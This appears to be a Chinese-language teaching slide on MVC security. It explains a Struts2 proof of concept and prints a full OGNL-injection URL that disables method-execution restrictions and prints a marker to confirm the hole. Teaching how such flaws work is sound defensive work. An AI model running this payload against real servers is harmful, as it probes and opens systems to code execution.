

# MVC安全
Struts2漏洞：
解密Struts2的“神秘”的POC：

POC3（需要注意这里也必须是加载一个String(字符串类型)的参数后面，使用的时候把URL里面的两个foo替换成目标参数（注意POC里面还有个foo））:

http://127.0.0.1/Struts2/hello.action?foo=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))&z[(foo)('meh')]=true